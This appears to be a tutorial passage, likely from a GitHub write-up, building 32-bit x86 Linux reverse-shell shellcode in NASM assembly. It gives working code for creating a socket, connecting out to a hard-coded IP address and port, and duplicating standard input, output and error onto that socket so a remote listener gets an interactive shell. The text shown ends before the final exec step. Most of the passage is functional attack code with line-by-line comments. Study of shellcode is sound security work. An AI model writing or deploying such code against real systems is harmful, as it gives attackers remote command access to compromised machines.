 ### socket
We start by establishing a socket using socketcall.  This will return to us a sockfd identifier that we will need to save for use in future calls.
```nasm
xor eax, eax        ; zero out eax
mov ebx, eax        ; zero out ebx
push eax            ; push 0 to stack (protocol: 0 (nonblocking))
mov al, 0x66        ; socketcall
mov bl, 1           ; sys_socket
push ebx            ; push 1 to stack (type: SOCK_STREAM)
push 2              ; domain: AF_INET
mov ecx, esp        ; save pointer to stack
int 0x80
```

### connect
We now connect to a target IP address and port.  In this example I'm using the IP address 192.168.1.122 and port 6789.  These values must be in network byte order and I have written a script to generate these values for you here =>
```nasm
mov edi,eax         ; save sockfd
mov al,0x66         ; socketcall
mov bl,3            ; sys_connect

push 0x7a01a8c0     ; ip address (192.168.1.122)  ; sockaddr_in struct
push word 0x851a    ; port number (6789)          ; sockaddr_in struct
push word 2         ; AF_INET                     ; sockaddr_in struct
mov ecx,esp         ; save pointer to struct

push 0x10           ; push struct length
push ecx            ; push pointer to struct
push edi            ; push sockfd
mov ecx,esp         ; save pointer to stack
int 0x80
```

### dup2
The dup2 function will duplicate the STDOUT/STDIN/STDERR file descriptors onto the sockfd.  This will allow all output to be seen on the sockfd from the connect so the receiver of the reverse shell can see all output.
```nasm
xor ecx,ecx         ; zero out ecx
    mov ebx,edi
    mov al, 0x3f        ; dup2
dup2_loop:
    int 0x80            
    mov al,0x3f         ; dup2
    inc ecx             ; increment ecx until we hit 2
    cmp ecx, 2          ; test if we're at 2
    jle dup2_loop       ; if not, keep calling dup2
```
